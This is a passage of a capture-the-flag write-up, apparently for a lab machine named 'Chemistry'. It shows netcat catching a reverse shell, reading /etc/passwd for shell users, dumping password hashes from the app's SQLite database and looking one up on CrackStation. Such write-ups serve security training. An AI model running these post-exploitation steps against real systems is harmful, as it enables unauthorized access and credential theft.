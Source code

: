 Set up a listener using netcat to capture the reverse shell.

```
nc -lnvp 1234

listening on [any] 1234 ...
connect to [10.10.14.90] from (UNKNOWN) [10.129.235.159] 45512
ls
app.py
instance
static
templates
uploads
```

The reverse shell is established. Let's list the users on the machine with shell access.

```
cat /etc/passwd | grep -E 'sh$'

root:x:0:0:root:/root:/bin/bash
rosa:x:1000:1000:rosa:/home/rosa:/bin/bash
app:x:1001:1001:,,,:/home/app:/bin/bash
```

Now that we know the users, let's inspect the application's database to check if any system credentials are reused there.

```
sqlite3 instance/database.db

SQLite version 3.31.1 2020-01-27 19:55:54
Enter ".help" for usage hints.
sqlite> .tables
structure  user
sqlite> select * from user;
1|admin|2861debaf8d99436a10ed6f75a252abf
2|app|197865e46b878d9e74a0346b6d59886a
3|rosa|63ed86ee9f624c7b14f1d4f43dc251a5
```

There's a user `rosa` with a hashed password. Let's check if it's in the CrackStation database.

![crackstation](../../img/Chemistry/crackstation.png)
